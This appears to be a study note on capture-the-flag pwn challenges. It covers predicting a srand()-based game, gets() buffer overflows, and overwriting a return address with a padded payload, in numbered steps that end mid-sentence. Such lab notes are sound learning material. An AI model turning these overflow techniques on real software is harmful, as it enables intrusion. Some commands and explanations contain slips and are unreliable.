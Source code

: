 ### EXAMPLES

---

### EX-1

Pwn question - Win 5 times in a row in rock paper scissor for the flag. Count based pwning challenge.
Vulnerability due to srand() which generates randok choices and makes it hard to infiltrate into the system.

Soln - Write a script which takes input the same as the computer to match it's output on every round.

---

### EX-2

Buffer overflow - Gets() function is vulnerable and stores characters beyond the specified size as well.
Better to use fgets(), if gets() function is in the source code, try to overflow the function with a larger input.

---

### EX-2

Buffer Overflow 2- Sometimes, just overflowing the function isn't enough. We need to control the return address and point it towards the flag.

Steps -

```py
1. Info func
2. disassemble main, vuln, flag etc
3. run the program and overflow it
4. Find the offset
5. cyclic 100
6. Let's say offset is 44 now
7. python3 'print "A" * 44'
8. Now, we want to return the address of win function for instance, the string after 44 will reach the EIP and hence, the function could be executed.
9. So python3 'print ("A" * 44 +  "\xf6\x91\x49\x80")' > payload
10. echo "fake_flag" > flag.txt
11. ./vuln < payload
12. If it doesn't work try with the very next address from '
```

Offset can be checked using the first four bytes in RSP like oaaa .

---

